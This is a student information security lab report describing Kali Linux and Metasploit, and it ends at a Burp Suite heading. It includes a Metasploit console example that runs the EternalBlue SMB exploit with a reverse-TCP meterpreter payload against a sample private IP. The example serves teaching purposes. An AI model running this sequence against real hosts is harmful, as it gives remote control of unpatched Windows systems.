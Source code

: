 
# Information Security Lab 
## Adriteyo Das (230953244, CCEB-27)

---

# Tools Overview

This report details a selection of essential tools frequently utilized in information security labs, covering areas from penetration testing and digital forensics to web application security and threat modeling. For each tool, I provide a brief summary of its primary function, aiming for a professional and informative tone. Additionally, I include technical insights into how these tools operate "under the hood" and, where applicable, relevant code snippets to illustrate their usage or underlying mechanisms.

## Kali Linux

**Kali Linux** is a Debian based Linux distribution maintained by Offensive Security, specifically engineered for **penetration testing, digital forensics, and incident response**. It comes pre installed with nearly 600 tools, ready for immediate use. Kali is highly customizable, supports a wide range of hardware architectures, and benefits from an active open source community. Technically, Kali Linux leverages a highly optimized kernel, often with custom patches, to enhance performance for security tasks, such as enabling raw socket access for tools like Nmap or supporting packet injection for wireless attacks. It relies on a robust package management system (APT) to ensure tools are up to date and dependencies are met. Its integration with various hardware drivers and support for different architectures (like ARM for Raspberry Pi) makes it a versatile platform for security professionals.

## Metasploit

**Metasploit** is a powerful **open source penetration testing framework** that allows security professionals to develop, test, and execute exploits. It features a vast database of exploits, payloads, and post exploitation modules, making it an indispensable tool for simulating real world attacks and assessing system vulnerabilities. Under the hood, Metasploit is primarily written in Ruby. Its architecture is modular, allowing users to select and combine different components such as exploits, payloads, encoders, and nops to achieve specific attack objectives. The framework provides a consistent API for interacting with various modules, simplifying the process of developing new exploits and integrating them into the existing ecosystem.

**Example Metasploit Console Usage (using a module and setting options):**

```ruby
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.5
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit
````

## Burp Suite
